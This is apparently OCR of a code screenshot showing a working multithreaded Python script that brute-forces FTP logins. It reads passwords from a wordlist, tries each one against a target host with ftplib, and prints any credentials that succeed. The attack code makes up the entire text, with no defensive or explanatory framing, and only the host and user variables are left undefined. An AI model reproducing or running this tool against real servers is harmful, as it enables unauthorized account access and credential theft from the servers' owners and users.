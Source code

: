 def connect_ftp():
    global q
    while True:
        # get the password from the queue
        password = q.get()
        # initialize the FTP server object
        server = ftplib.FTP()
        print("[!] Trying", password)
        try:
            # tries to connect to FTP server with a timeout of 5
            server.connect(host, port, timeout=5)
            # login using the credentials (user & password)
            server.login(user, password)
        except ftplib.error_perm:
            # login failed, wrong credentials
            pass
        else:
            # correct credentials
            print(f"{Fore.GREEN}[+] Found credentials: ")
            print(f"\tHost: {host}")
            print(f"\tUser: {user}")
            print(f"\tPassword: {password}{Fore.RESET}")
            # we found the password, let's clear the queue
            with q.mutex:
                q.queue.clear()
                q.all_tasks_done.notify_all()
                q.unfinished_tasks = 0
        finally:
            # notify the queue that the task is completed for this password
            q.task_done()

# read the wordlist of passwords
passwords = open("wordlist.txt").read().split("\n")
print("[+] Passwords to try:", len(passwords))
# put all passwords to the queue
for password in passwords:
    q.put(password)
# create `n_threads` that runs that function
for t in range(n_threads):
    thread = Thread(target=connect_ftp)
    # will end when the main thread end
    thread.daemon = True
    thread.start()